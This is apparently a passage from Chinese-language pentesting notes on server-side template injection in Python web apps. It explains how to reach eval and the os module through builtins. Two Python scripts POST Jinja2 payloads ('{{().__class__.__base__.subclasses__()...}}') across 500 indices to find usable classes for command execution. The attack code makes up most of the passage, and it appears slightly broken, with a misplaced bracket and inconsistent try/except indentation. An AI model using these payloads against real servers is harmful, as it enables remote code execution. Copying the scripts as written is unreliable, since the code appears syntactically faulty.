 

### 内建eval函数执行命令
内建函数：python在执行脚本时自动加载的函数



python脚本查看可利用内建函数eval的模块



```plain
import requests
url=input('请输入URL链接: ')
for i in range(500):
  data ={"name":
"{{().__class__.__base__.subclasses__(["+str(i)+"].__init__.__globals__['__builtins__']}}"}
try:
  response = requests.post(url,data=data)
  #print(response.text)
  if response.status_code == 200:
    if 'eval' in response.text:
      print(i)
  except:
    pass
```



调用eval模块



![](https://cdn.nlark.com/yuque/0/2025/png/54428404/1744655632620-3ad4ecdd-058a-4037-ae2a-38d1d9ac4865.png)



### os模块执行命令（常用）
python脚本：



```plain
import requests
url=input('请输入URL链接: ')
for i in range(500):
  data ={"name":
"{{().__class__.__base__.subclasses__(["+str(i)+"].__init__.__globals__}}"}
try:
  response = requests.post(url,data=data)
  #print(response.text)
  if response.status_code == 200:
    if 'os.py' in response.text:
      print(i)
  except:
    pass
```


